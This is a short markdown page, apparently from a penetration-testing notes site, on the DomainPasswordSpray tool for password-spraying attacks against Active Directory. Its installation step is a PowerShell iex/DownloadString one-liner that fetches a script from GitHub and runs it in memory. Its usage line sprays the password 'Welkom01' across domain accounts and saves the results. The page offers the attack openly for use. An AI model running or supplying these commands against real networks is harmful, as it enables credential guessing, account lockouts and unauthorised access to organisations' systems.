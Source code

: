 ```yaml
---
title : "DomainPasswordSpray"
# pre : ' '
description : "Powershell script to perform password spray attack in Active Directory."
date : 2021-02-02T10:07:59+01:00
# hidden : true
# draft : true
weight : 0
# tags : ['']
---
```


## Invoke-Domainpasswordspray

Powershell script to perform password spray attack in Active Directory.

{{%attachments title="Related files" fa_icon_class="far fa-file" pattern=".*(ps1)"/%}}

### Installation

```plain
iex (new-object Net.WebClient).DownloadString("https://raw.githubusercontent.com/dafthack/DomainPasswordSpray/master/DomainPasswordSpray.ps1")
```

### Usage

```plain
Invoke-DomainPasswordSpray -Password Welkom01 -OutFile c:\temp\spray-results.txt
```

### URL list

* [Github.com - DomainPasswordSpray](https://github.com/dafthack/DomainPasswordSpray)
